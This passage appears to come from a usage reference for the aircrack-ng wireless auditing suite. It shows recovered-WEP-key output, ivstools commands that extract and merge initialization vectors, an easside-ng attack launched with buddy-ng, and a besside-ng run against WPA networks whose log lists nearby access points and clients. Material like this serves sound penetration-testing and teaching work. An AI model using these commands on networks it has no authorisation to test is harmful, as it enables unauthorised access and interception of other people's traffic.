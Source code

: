 ```
    3   10/  3   E1(108800) 0A(108544) 34(108032) 3E(108032) 48(108032)
    4    9/  4   7D(109312) BA(109056) 5E(108800) D6(108800) 11(108288)

             KEY FOUND! [ 12:34:56:78:9A:BC:DE:F1:23:45:67:89:AB ]
    Decrypted correctly: 100%
```

Strip out the initialization vectors of the provided .pcap capture and save them to a new file:

```
:~# ivstools --convert wep_64_ptw.cap out.ivs
Opening wep_64_ptw.cap
Creating out.ivs
Read 65282 packets.
Written 30566 IVs.
Merge all .ivs files into one file.
```

```
:~# ivstools --merge *.ivs /root/all-ivs.ivs
Creating /root/all-ivs.ivs
Opening out.ivs
916996 bytes written
Opening out2.ivs
1374748 bytes written
```

### easside-ng Usage Example <a href="#easside-ng-usage-example" id="easside-ng-usage-example"></a>

First, run buddy-ng, then launch the Easside-ng attack, specifying as many of the options as you can.

```
:~# buddy-ng
Waiting for connexion
```

```
:~# easside-ng -v de:ad:be:ef:ca:fe -m 3c:46:d8:4e:ef:aa -s 127.0.0.1 -f wlan0mon -c 6
Setting tap MTU
Sorting out wifi MAC
```

### besside-ng <a href="#besside-ng" id="besside-ng"></a>

Attack WPA only (`-W`), display verbose output (`-v`) and use monitor mode interface `wlan0mon`.

```
:~# besside-ng -W -v wlan0mon
[18:39:34] mac 3c:46:d8:4e:ef:aa
[18:39:34] Let's ride
[18:39:34] Appending to wpa.cap
[18:39:34] Appending to wep.cap
[18:39:34] Logging to besside.log
[18:39:35] Found AP 44:3a:cb:38:51:42 [watwutwot] chan 1 crypto WPA dbm -49
[18:39:35] Found AP 4c:8b:30:83:ed:91 [TELUS3079-2.4G] chan 1 crypto WPA dbm -71
[18:39:35] Found AP 1c:87:2c:d3:34:18 [Kuroki] chan 3 crypto WPA dbm -89
[18:39:37] Found AP 4c:8b:30:24:71:75 [SAMUEL9] chan 8 crypto WPA dbm -73
[18:39:37] Found AP 0c:51:01:e6:01:c4 [fbi-van-24] chan 11 crypto WPA dbm -46
[18:39:37] Found AP 70:f1:96:8e:5c:02 [TELUS0455-2.4G] chan 11 crypto WPA dbm -78
[18:39:38] Found client for network [Kuroki] 90:06:28:cb:0f:f3
[18:39:41] Found AP f0:f2:49:3c:ec:a8 [fbi-van-24] chan 1 crypto WPA dbm -49
[18:39:42] Found AP bc:4d:fb:2c:6d:88 [SHAW-2C6D80] chan 6 crypto WPA dbm -77
[18:39:42] Found client for network [SHAW-2C6D80] 64:5a:04:98:e1:62
[18:39:43] Found AP 10:78:5b:e9:a4:e2 [TELUS2151] chan 11 crypto WPA dbm -49
[18:39:43] Found client for network [fbi-van-24] 60:6b:bd:5a:b6:6c
```